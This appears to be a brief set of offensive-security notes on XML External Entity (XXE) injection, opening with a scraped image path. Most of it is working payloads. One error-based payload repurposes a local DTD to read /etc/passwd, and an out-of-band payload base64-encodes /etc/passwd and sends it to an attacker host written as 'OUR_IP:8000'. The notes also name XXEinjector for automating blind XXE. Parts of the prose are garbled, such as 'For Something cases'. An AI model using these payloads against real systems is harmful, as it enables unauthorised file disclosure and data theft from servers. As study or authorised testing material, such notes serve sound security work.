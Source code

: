 - call the DTD parameter to Parse the `external` local DTD 


```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % existent_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

 - &#x25  maps to `%`
 - \&#x26; maps to `&`
 - &#x27 maps to `"`
 
# Out of Bound Exfiltration

    
For Something cases, we can utilize a method known as Out-of-band (OOB) Data Exfiltration
Instead of having the web application output our file entity to a specific XML entity, we will 
make the web application send a web request to our web server with the content of the file we 
are reading.

- In our hosted dtd goes:
    - The file external variable parameter entity with php://filter/convert.base64-encode to encode the file
    - an external variable entity which calls us back with the file contents as http an parameter


```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```


# Automated OOB Exfiltration

    
 we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector]( https://github.com/enjoiz/XXEinjector ). This tool supports basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.
